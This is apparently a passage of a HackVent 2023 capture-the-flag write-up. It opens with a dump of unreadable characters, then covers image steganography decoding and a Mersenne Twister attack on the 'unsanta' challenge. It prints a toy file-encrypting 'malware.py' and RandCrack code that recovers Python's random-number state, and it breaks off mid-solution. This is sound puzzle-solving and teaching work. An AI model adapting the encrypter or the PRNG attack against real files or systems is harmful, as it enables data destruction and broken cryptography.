%n+qzurni"{olr|ez(ov'dgsefnar}(qnd%fpm`lmbq|huug-zo%$i%(n)&wa$clnHreuggN$!em(H~hOmlaph*gmngzsgMx)upcg!eqgnevjeklg!bH""qd#shpfeg!`wuh~$gwkf(lj pi s&bgp!cgxgO{`fphN~oL}#n`%rt#sll&mMzm!#)hef&|)ww%qw)aecg s)"pqlv!e&i{a#)ulrs"c$"`)g(moKhHzi}ilnnwtnc%"atod`vnwfmagcgpk~kj&qtwk   `iob'&ztw(tas!irrgg `{gu}dm`g}'tujb&%fd)fti)"iFjhO)ej%ec&ojgh%ikmmlmlcst`x!c.qrao`liMxc-#f&iehmb)$bg)qineudd%g,xo!v(lg`h~)$`zraqdhJ}bakhegorlwt`f)gqcgz!i~wrl#rbtp w%`lsgN$(kwnultvmt}j%r#dkw%l`e  dnmsok'(h+pq!g&sqwaesjeu"oI~gbwibyj~osgeetd~sldviros}nimk&{n%')fb|`ajo"pfO}o/!g |jsh#pcuro{gg%mmMaavon'eori&ra&oed$$ww'}h'u$iqqe fml#`fc (unhue%dle(t%!mpg/mjrbe%v&u`o'{m*lnn ztdtsbgto$o!$$tjc/l(fh(qk%egaiis(buigjl"tiv'#e fr ``#ed(g/"h'ngJ}ns)l!(qwnLjbg$n&~hMjgnebns)&s&kdK|fc%kjj% gp~a-~au!fhb&od"h'(g*%(m`qrck"{b&em/ sle{gn rivff!$o/v{p#n-ph)ni #lsb%s`"guu#gNgjMpavso #dptdjtbk$tq"fd dpj/pokv$edqtu'l#pe%vdm {fFuochlhoz}ea'kas'pdiLfogsg-uh+)c'mbp(e"dqxl'lgMi(go aggddifr}aqc'Nql!|gpj%kgnwc$gJ)o!x)gp"vaovd`plJ|j###ppg' fHpoKxifan.sn(!)qh`vclkk/ciLpkkfm*dipjg%epge{"i"ao,mnmh(x `ha'lo)nbFfda#`uk)l#qj{ddu$gambgpdq&h"'l${gL%oieva&fgh!(fmon  kJ#k'ivsp#vr'nk`ngKjgjqa-)flkalm{iLoo~&cfuk*qs$ndlgLyb)nmHqkd'gcfi.sn$ff)}dy$w%$~ph$"hllj+(i( nf`rrf un&l$O g% hvrd-yhkfwlgp)c|$se `&n#pn*p$l)l}hwt"()``)JfFilfpj&dakbuvhH|(wpcLqgb}m)r'o)f.(e~bqqiftl/ai(pf(qkltn`dufnj*`o '"biut%ajl&tffjgre&qpg)lmI%oGkf(`cmda$fO{dwro({oLzn.u%yrfjughib~mFyhkam$lkoqfktlho$fagewfdN$o&mgrnqqs#lem|ovkmek``pftjj$rupj#%(glig&%dmbpfhIfd*}g$}gjtl!g&f%&lHjf!lgbd}'t m)gf!&lIyci'`)iupgJ)hrv)mgce!$L%mm{geqi'mwllvfeem%c%bKgbamb%$`-(g-llw`ug`bhl&"nFvf+`f.lh(ml|`zso'o eqkH#hml',fo,avw`"wdtr s)cfraK!$herdsresuir|"cp"c#n)gfHlo/ ue!adeI|lc}'G#n!q&jlgf%qhIpimflqcvtea(hbg%c o{rhvskb}fwhbv(kOs%v"l$wsest'dt!pr'Izj!yh& hmr`w'v|f%xna#f$!m$#l!tzwr%muggtfje~f,ve'$n&s(+bmvl#km`'q()b}o'ekubd!|'qe`&bt)gxgItjaul&x%fgqh)foiv nf}i`#tgrnaN"b`k$}fin'pvrcdmetbj mp wdqg$cr l````do(bqme"e&wit%h`$nfgnNkfGyl()p&nb)'Kg`vd$MfFyhKe$,co.alfia|iqoj%eiFqkF&a$lh* zcerma werjj&)j+|uv$n*qu|k&w`mnfa)fr#iFhfvn%qnt"`tg~h(knq}"t)la!q}d`%f,pd*"(i'drk(nvd.gd-rbrjv#ari'w#h*zlfdr|pf.gbvgs}brqkcvbahc&y$qmz}dgw flcgh(mf#e"d%#n#!n*~v")f|iJ!kdhfgpnH!k$p'is$w`gp`c}lOpk!$"yxn#"%yq`xvsisf'ld$c|nkuamje$nzr}auasl)#fii~fba%msle'ej(|otezg~es`o&'g%%u a#qm!simqg&ol,s"s"j#vtpq%x}` hs%'rq%Klaxv%plq(nruktqkpnuxnIzjJi'd#eor)(cqhv|bwohl}nGff~(ckuj'p{%gbnaK~o.kmMyg+am)a!&&fiowigv!g)ej)szuh(*"r'afh#xf&gfwitpr"l#F)iJmnol%)com"jO}hMx!wu`xsnnazjnKrl(#n*plJ#!'!f'(wc&bfn`)heqm*dn*pgrn&ksd%ff e`gkakfelcJ#cil thqlcg#$fpguoiethmqj+mm ")adpu&anl$pobhj%&o&&ewequa(vocgo'(i!c rso"p"uw%nFhh#qzhu'v"angxmmvg)wd$(h*zhagimmgw$g.`m'r!|gb"bFpf(ofap`!~g"z!oo{mjurb~'k)'j)$tvqo/fsr|{uupris}hwt&mzjvqgyadp$suer(blt&r&n&hf%)fFxno$e$lwriM(hqsiIziOqiwn#hpajutfeFylH'n(dfGkdr`
    

I’ll try looping through columns first instead of rows:

    
    
    from PIL import Image
    
    image = Image.open('7cda2611-87a0-4b68-b549-13376b8c097d.png')
    
    res = []
    width, height = image.size
    for x in range(width):
        for y in range(height):
            r, g, b, a = image.getpixel((x, y))
            print(r, g, b, a)
    

This time, there’s a pattern in red:

    
    
    oxdf@hacky$ python solve.py | head
    3 236 77 255
    1 237 100 255
    4 237 114 255
    1 237 100 255
    5 238 119 255
    9 238 41 255
    2 237 101 255
    6 237 105 255
    5 238 107 255
    3 238 109 255
    

Right aware the red column jumps out as PI (3.141592653…). That’s interesting.

#### Flag

The green values make up most of the picture. So if there’s data in the green,
it would have to be like a least significant bit. It makes more sense to focus
on the red and blue values.

The blue values are mostly ASCII, though not meaningfully. The red values are
small. That means I can combine them and still get something ASCII-ish. I’ll
try a few different methods, but XOR is what works:

    
    
    oxdf@hacky$ python solve.py 
    Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. HV23{pi_1s_n0t_r4nd0m}Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna let you down. Never gonna give you up. Never gonna give you up. Never gonna give you up. Never gonna give
    

Buried in that text is the flag:

    
    
    oxdf@hacky$ python solve.py | grep -oP 'HV23{.*}'
    HV23{pi_1s_n0t_r4nd0m}
    

**Flag:`HV23{pi_1s_n0t_r4nd0m}`**

## HV23.H2

### Challenge

 | HV23.H2 Grinch's Secret  
---|---  
Categories: |  FUN   
Level: | medium  
Author: |  coderion   
  
> Santa looked at the network logs of his machine and noticed that one of the
> elves browsed a weird website. He managed to get the pcap of it, and it
> seems as though there is some sensitive information in there?!

### Solution

The previous challenge had the flag buried in some Rick Roll text. Closer
inspection shows that the pattern of “up” and “down” is not everyother:

    
    
    oxdf@hacky$ python solve.py | grep -oP "(up|down)" | head
    up
    down
    up
    up
    down
    up
    up
    up
    up
    down
    

If these are bits are I’m looking for ASCII, up would have to be 0, so I’ll
try that, using `sed` to replace “up” with 0 and “down” with 1, then `tr` to
remove newlines and `perl` to convert binary string to raw data:

    
    
    oxdf@hacky$ python solve.py | grep -oP "(up|down)" | sed 's/up/0/g' | sed 's/down/1/g' | tr -d '\n' | perl -lpe '$_=pack"B*",$_'
    HV23{h1dden_r1ckr011}HV23{h1dden_r1ckr011}HV23{h1dden_r1ckr011}HV23{h1dden_r1ckr011}HV23{h1dden_r1ckr011}HV23{h1dden_r1ckr011}H
    

**Flag:`HV23{h1dden_r1ckr011}`**

## HV23.12

### Challenge

 | HV23.12 unsanta  
---|---  
Categories: |  CRYPTO   
Level: | medium  
Author: |  kuyaya   
  
> To train his skills in cybersecurity, Grinch has played this year’s SHC
> qualifiers. He was inspired by the cryptography challenge `unm0unt41n` (can
> be found [here](https://library.m0unt41n.ch/)) and thought he might play a
> funny prank on Santa. Grinch is a script kiddie and stole the malware idea
> and almost the whole code. Instead of using the original encryption malware
> from the challenge though, he improved it a bit so that no one can recover
> his secret!
>
> Luckily, Santa had a backup of one of the images. Maybe this can help you
> find the secret and recover all of Santa’s lost data…?

The download has a couple directories and a `malware.py` file:

    
    
    oxdf@hacky$ unzip -l unsanta.zip 
    Archive:  unsanta.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
            0  2023-12-11 21:43   backup/
        83679  2023-12-11 21:31   backup/a.jpg
          562  2023-12-11 22:49   malware.py
            0  2023-12-11 21:45   memes/
        83679  2023-12-11 22:31   memes/a.jpg
        50980  2023-12-11 22:31   memes/b.jpeg
       138474  2023-12-11 22:31   memes/c.jpg
    ---------                     -------
       357374                     7 files
    

### malware.py

`malware.py` is a simple file encrypter:

    
    
    from Crypto.Util.number import bytes_to_long
    import random
    import os
    from pathlib import Path
    
    flag = b"REDACTED"
    random.seed(bytes_to_long(flag))
    
    path = Path("memes/")
    for p in sorted(path.rglob("*")):
        if os.path.isfile(p):
            with open(p, "rb") as fp:
                c = fp.read()
    
            s = b""
            for _ in range((len(c) + 3) // 4):
                s += random.getrandbits(32).to_bytes(4, "big")
            cenc = b"".join([bytes([s[i] ^ c[i]]) for i in range(len(c))])
    
            with open(p, "wb+") as fp:
                fp.write(cenc)
    

It seeds the random number generator with the flag, and then it uses that to
loop over each file in `memes`, xoring each byte with the next output of
`random.getrandombites(32)`.

### Break Mersenne

#### Background

The random number generating algorithm used by Python’s `random` module is
Mersenne Twister (or `mt19937`). This algorithm is vulnerable to attack if at
least 624 four-byte random values in a row are known. I actually performed
this attack in the [Snowbacll Fight terminal](/holidayhack2020/11#terminal---
snowball-fight) in the 2020 Sans Holiday Hack.

By giving me one pre-encrypted image, I can get the xor bytes used in it, and
as long as the image is more than 624 * 4 = 2496 bytes, I’ll have enough to
get the future “random” words, and then decrypt the other images.

The difference here vs other challenges like this is that rather than having
the flag in one of the encrypted files, the flag is the seed.

#### RandCrack

[RandCrack](https://github.com/tna0y/Python-random-module-cracker) is a common
tool for recovering the random stream. It won’t give the seed, but I can at
least use it to validate that I’m on the right path.

    
    
    from randcrack import RandCrack
    from more_itertools import chunked
    
    with open('backup/a.jpg', 'rb') as f:
        backupa = f.read()
    
    with open('memes/a.jpg', 'rb') as f:
        enca = f.read()
    
    key_stream = [x^y for x, y in zip(backupa, enca)]
    key_chunks = [a*pow(2,24) + b*pow(2,16) + c*pow(2,8) + d for a, b, c, d in chunked(key_stream[:-3], 4)]
    
    rc = RandCrack()
    [rc.submit(key_chunks[i]) for i in range(624)]
        
    print(f"predicted number: {rc.predict_randrange(0, 4294967295)}")
    print(f"actual number:    {key_chunks[624]}")
    

I’ll read in the plaintext and encrypted file, and then create a `key_stream`
by XORing their bytes. To get four byte words, I’ll use another loop and
`chunked`. There’s almost certainly a better way to do this, but, it works.

Then I’ll create a `RandCrack` instance, and feed it the first 624 words from
`key_chunks`. Now I can use that to get what the 625th word would have been:

    
    
    oxdf@hacky$ python solve.py 
    predicted number: 3500890921
    actual number:    3500890921
    

It’s working.

#### Seed Recovery

I spent a long time while this was live reading CTF writeups trying to find
someone who has recovered the seed value. There isn’t a ton of practical
application for having the seed, as typically it’s a throw-away number like
the current unix timestamp.

Of the things I found that didn’t help but were relevant:

  * [untwister](https://github.com/bishopfox/untwister) from Bishop fox. It’s quite old, and runs on Python2. I managed to get it running in a Docker container, but it never found the seed. I am writing this 14 hours after I started running it and it’s still looking.
  * [This blog hosts a similar challenge](https://deut-erium.github.io/2021/07/25/mersenne-seed-recovery.html).

[This repo](https://github.com/deut-erium/RNGeesus/tree/main) has tools that
will be useful. [This](https://github.com/deut-
erium/RNGeesus/blob/main/src/code_mersenne/mersenne.py) `mersenne.py` file has
a few things, but of interest is the function `get_seeds_python_fast` in the
`BreakerPy` object. I’ll save the script to the same directory as my script
and update my script to use it:

    
    
    breaker = BreakerPy()
    res = breaker.get_seeds_python_fast(key_chunks[:624])
    print(''.join(r.to_bytes(4).decode() for r in res[::-1]))
    

I’ll also need to add `from mersenne import BreakerPy ` at the top.

This function tracks the time it takes to find the seeds as well:

    
    
